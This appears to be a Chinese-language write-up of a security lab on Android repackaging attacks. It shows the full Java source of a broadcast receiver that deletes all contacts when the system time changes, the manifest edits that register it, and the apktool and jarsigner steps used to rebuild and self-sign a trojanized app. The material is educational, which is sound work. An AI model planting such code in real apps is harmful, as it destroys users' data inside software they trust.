# 删除所有联系人

对已存在的安卓应用插入恶意代码，并重新打包

重打包攻击是一种很常见的对安卓设备的攻击形式，攻击者往往从安卓市场下载受欢迎的应用，加入一些恶意参数然后上传到应用市场。
用户很难分辨原始应用和修改后的应用。一旦修改后的应用被安装，恶意代码就可以执行，比如获取root权限等。

重打包攻击之所以容易实现是因为安卓应用的二进制代码很容易修改

## task1: 获得一个安卓APK文件并安装



!!! 环境问题

    由于实验用安卓虚拟机不是物理机，有些应用在虚拟机下可能无法运行，其中原因之一是这些应用用了原生代码。
    原生代码跑在物理机上在ARM处理器用二进制代码，而安卓虚拟机跑在x86处理器上，这需要原代码，而我们没有源代码，
    可能会崩溃，遇到这种情况就换一个app就好。

1、宿主机中[下载app](https://seedsecuritylabs.org/Labs_20.04/Mobile/Android_Repackaging/files/RepackagingLab.apk.zip)  
2、把下载的app拖到ubuntu虚拟机的桌面  
3、连接安卓虚拟机  
```bash
adb connect 10.0.2.4
```
4、安装apk


安装之后就多了一个app


## task2: 对app反汇编

### APK文件

apk是安卓手机app格式，其实就是一个zip压缩包  
对这个压缩包解压，有以下文件和文件夹  


| 文件和文件夹 | 作用 |
| ---- | ---- |
| AndroidManifest.xml | Android工程的基础配置属性文件 |
| META-INF     | 存放工程属性文件   |
| classes.dex       | java代码编译得到的Dalvik VM能直接执行的文件    |
| res   |  资源目录  |
| resources.arsc | 对res目录下的资源的一个索引文件，保存了工程中strings.xml等文件内容 |  

### Dalvik字节码

Dalvik是google专门为Android操作系统设计的一个虚拟机，经过深度的优化。虽然Android上的程序是使用java来开发的，
但是Dalvik和标准的java虚拟机JVM还是两回事。Dalvik VM是基于寄存器的，而JVM是基于栈的，Dalvik有专属的文件执行
格式dex（dalvik executable），而JVM则执行的是Java字节码。Dalvik VM比JVM速度更快，占用空间更少。

通过Dalvik的字节码我们不能直接看到原来的逻辑代码，需要借助如Apktool或dex2jar+jd-gui工具来帮助查看。
但是注意最终我们修改APK需要操作的文件是.small文件，而不是导出来的java文件重新编译。

### Smali

Smali是用于Dalvik的反汇编程序实现，汇编工具（将Smali代码汇编为dex文件）为smali.jarS，与之对应的baksmali.jar
则是反汇编程序。

Smali支持注解、调试信息、行数信息等基本Java的基本特性，可以说是很接近Java编译在JVM上的中间语言。

### Dalvik字节码转smali

APK文件包含Dalvik字节码，不适合人类阅读，故要把字节码转成smali。这里需要用APKTool反汇编dex代码（classes.dex）
成smali代码。APKTool是一款编码和重新编译安卓app的工具。

```bash
apktool d RepackagingLab.apk
```

## task3: 插入恶意代码

在安卓组件中有四类组件，分别是activity、service、broadcast receiver、content provider。前两类最常用。
在任何一个组件中都可以插入恶意代码，但是最重要的是能触发恶意代码而不被用户发现。  
加入代码可以是直接修改已经存在的smali文件，但是有可能会损坏app，更好的方案是增加一个独立的文件，这里最简单的是
用broadcast receiver，这个是系统触发的。  
例如，设置系统时间后，TIME_SET broadcast就触发了，重启后，BOOT_COMPLETED信号就广播发出了，我们可以写一个广播
接收者监听这些信号。恶意代码例子如下：
```java
public class MaliciousCode extends BroadcastReceiver {
    @Override
    public void onReceive(Context context, Intent intent) {
        ContentResolver contentResolver = context.getContentResolver();
        Cursor cursor = contentResolver.query
            (ContactsContract.Contacts.CONTENT_URI, null, null, null, null);
        while (cursor.moveToNext()) {
            String lookupKey = cursor.getString
                (cursor.getColumnIndex(ContactsContract.Contacts.LOOKUP_KEY));
                
            Uri uri = Uri.withAppendedPath
                (ContactsContract.Contacts.CONTENT_LOOKUP_URI, lookupKey);
            contentResolver.delete(uri, null, null);
        }
    }
}
```
上面这个恶意代码如果被触发，可以删除所有联系人信息。一般在本地写好java代码，再编译成smali文件

### java代码转smali代码

1、编译java代码为class文件
```bash
javac smaliTest.java
```

2、把class文件转成dex文件  
```bash
java -jar dx.jar --dex --output=smaliTest.dex smaliTest.class
```
其中dx.jar是安卓sdk的一个工具  

3、把dex转化成smali文件  
```bash
java -jar baksmali.jar smaliTest.dex
```
baksmali.jar也是安卓sdk的一个工具

这边我们直接用已经编译好的[smali文件](https://seedsecuritylabs.org/Labs_20.04/Mobile/Android_Repackaging/files/MaliciousCode.smali),
下载下来，拖到ubuntu虚拟机，如下：  


到这里我们还需要注册一下这个广播事件，注册需要修改AndroidManifest.xml这个文件，需要增加以下三行语句：  
```xml
<manifest...>
    ...
    <uses-permission android:name="android.permission.READ_CONTACTS" /> ➀
    <uses-permission android:name="android.permission.WRITE_CONTACTS" /> ➁
    ....
    <application>
        .....
        .....
        <receiver android:name="com.MaliciousCode" >
            <intent-filter>
                <action android:name="android.intent.action.TIME_SET" /> ➂
            </intent-filter>
        </receiver>
    </application>
</manifest>
```
第1、2行使APP有读取和写入联系人权限，第3行设置后每次修改系统时间，我们的APP会被调用，最终文件  
```xml
<?xml version="1.0" encoding="utf-8" standalone="no"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android" package="com.mobiseed.repackaging" platformBuildVersionCode="23" platformBuildVersionName="6.0-2166767">
    <uses-permission android:name="android.permission.READ_CONTACTS" />
    <uses-permission android:name="android.permission.WRITE_CONTACTS" />
    <application android:allowBackup="true" android:debuggable="true" android:icon="@drawable/mobiseedcrop" android:label="@string/app_name" android:supportsRtl="true" android:theme="@style/AppTheme">
        <activity android:label="@string/app_name" android:name="com.mobiseed.repackaging.HelloMobiSEED" android:theme="@style/AppTheme.NoActionBar">
            <intent-filter>
                <action android:name="android.intent.action.MAIN"/>
                <category android:name="android.intent.category.LAUNCHER"/>
            </intent-filter>
        </activity>
        <receiver android:name="com.MaliciousCode" >
             <intent-filter>
                 <action android:name="android.intent.action.TIME_SET" /> 
             </intent-filter>
        </receiver>
    </application>
</manifest>
```

## task4: 对app重打包

### 1、重编译APK
```bash
apktool b RepackagingLab
```
RepackagingLab是要打包文件夹，编译文件会放在dist目录    


### 2、对APK文件签名  

安卓要求所有APP有数字签名才能被安装，这要求APK有一个签名和一个公钥。获得一个权威证书要收费，故安卓允许开发者用他们
自己的私钥提供自签名证书，这样开发者可以在证书中使用任何名字不用管是不是拥有这个名字。谷歌应用商店对验证有要求，
但是很多第三方应用市场没有这个要求。

1、生成公钥私钥对  
```bash
keytool -alias yudankey -genkey -v -keystore mykey.keystore
```
mykey.keystore可以存储很多key，yudankey只是其中的一个key  


2、对APK签名  
```bash
jarsigner -keystore mykey.keystore RepackagingLab.apk yudankey
```


## task5: 安装app触发恶意代码

1、卸载老的  
首先必须把之前的app卸载，否则由于签名不符会无法安装  
settings-app-Repackaging Lab--uninstall  


2、安装新的  


3、设置权限  
其次需要让我们的应用有权限访问联系人，在真实场景中，应用往往会询问用户请求获取权限  
settings-app-Repackaging Lab--permission  


4、增加联系人  
系统已经预置了一个seed联系人了，不加也可以

5、app需要运行一次注册receiver

6、修改时间来触发恶意代码  
settings-Date and Time--Set time  
当调整时间后，再看联系人app，发现所有联系人已经被删除了

